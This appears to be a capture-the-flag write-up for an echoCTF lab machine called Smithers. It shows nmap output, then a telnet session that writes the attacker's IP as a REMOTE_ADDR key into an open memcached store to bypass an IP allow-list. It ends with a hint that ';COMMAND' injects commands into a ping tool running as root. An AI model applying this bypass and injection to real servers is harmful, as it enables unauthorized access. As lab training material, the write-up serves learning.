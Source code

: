 ```yaml
---
layout: post
title: Smithers
feature-img: "assets/img/portfolio/smithers_site.png"
img: "assets/img/portfolio/smithers_site.png"
date: 06 Jun 2021
tags: [memcached]
---
```



[smithers](https://echoctf.red/target/5)


machine description:

Like Smithers this server will serve you well only if you manage to enter it's memcached store.

---

### Enumartion


nmap -sV -sC -p- 10.0.100.142  

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-18 06:38 EDT
Nmap scan report for 10.0.100.142
Host is up (0.088s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE   VERSION

10888/tcp open  http      nginx
|_http-title: Network Tools

11211/tcp open  memcached Memcached 1.5.12 (uptime 488079 seconds)



## Enumartion

http://10.0.30.0:10888/

```
Network Utilities
These utilities are only available to authorized IP's only. 
If you need access to this page contact the administrator to update the ACL.
Server's version: 1.5.12
Visitor REMOTE_ADDR: 10.10.0.10
REMOTE_ADDR value not found on key.
You are not authorized to access this resource
```

### vulnerability

memcached server runing with full accsess and permisions


### Memcached  Enumartion

[Memcached](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache)

we can understand that enter site is limite be ip and we see that REMOTE_ADDR value not found on key.

so lets try to add key with my ip address:

1. connecting using telnet 10.0.30.0 11211
2. add REMOTE_ADDR 0 0 10 
3. 10.10.0.10

```
$ telnet 10.0.30.0 11211
Trying 10.0.30.0...
Connected to 10.0.30.0.
Escape character is '^]'.
add REMOTE_ADDR 0 0 10
10.10.0.10
STORED

``` 

now we got access to other page with option to run ping


![](/assets/img/rce_smithers.png)

### Rce


lets try to run ping with ;COMMAND


![](/assets/img/Priv_sec_smithiers.png)


### Privilege escalation


![](/assets/img/Priv_sec_smithiers.png)
                                                        
as we can see the proceess is running as root.
